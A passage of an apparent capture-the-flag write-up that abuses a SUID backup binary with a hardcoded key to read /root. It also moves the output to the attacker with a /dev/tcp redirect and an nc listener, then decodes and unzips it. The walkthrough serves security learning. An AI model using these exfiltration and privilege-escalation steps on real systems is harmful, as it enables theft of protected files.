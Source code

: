 ```js

      proc.stdout.on("end", function() {
      });
    }
    else {
      res.send({
        authenticated: false
      });
    }
  });
```

backup_key can be found at the top of app.js

`const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
`

`/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp`

We got a bunch of base64

Output to a file

`/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp > output3`

Get the file to our machine for easier analysis

Victim:

`cat output3 > /dev/tcp/10.10.16.12/1111`

Attacker:

`nc -lnvp 1111 > output3`

Decode

`base64 -d output3 > output3.decode`

PKZIP file by looking at header

Unzip the file using `magicword` as password 

We got like symlink to `/tmp` on the target machine because we specify `/tmp` when using `/usr/local/bin/backup`

Let's specify root instead

`/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /root > output3_root`

Decode with base64 and add .zip extension as above

Unzip it with 7z

`7z x output3_root.zip`

We got trolled

```
➜  loot cat root.txt 
QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
QQQQQQQQQQQQQQQQQQQWQQQQQWWWBBBHHHHHHHHHBWWWQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
QQQQQQQQQQQQQQQD!`__ssaaaaaaaaaass_ass_s____.  -~""??9VWQQQQQQQQQQQQQQQQQQQ
QQQQQQQQQQQQQP'_wmQQQWWBWV?GwwwmmWQmwwwwwgmZUVVHAqwaaaac,"?9$QQQQQQQQQQQQQQ
QQQQQQQQQQQW! aQWQQQQW?qw#TTSgwawwggywawwpY?T?TYTYTXmwwgZ$ma/-?4QQQQQQQQQQQ
QQQQQQQQQQW' jQQQQWTqwDYauT9mmwwawww?WWWWQQQQQ@TT?TVTT9HQQQQQQw,-4QQQQQQQQQ
QQQQQQQQQQ[ jQQQQQyWVw2$wWWQQQWWQWWWW7WQQQQQQQQPWWQQQWQQw7WQQQWWc)WWQQQQQQQ
QQQQQQQQQf jQQQQQWWmWmmQWU???????9WWQmWQQQQQQQWjWQQQQQQQWQmQQQQWL 4QQQQQQQQ
QQQQQQQP'.yQQQQQQQQQQQP"       <wa,.!4WQQQQQQQWdWP??!"??4WWQQQWQQc ?QWQQQQQ
```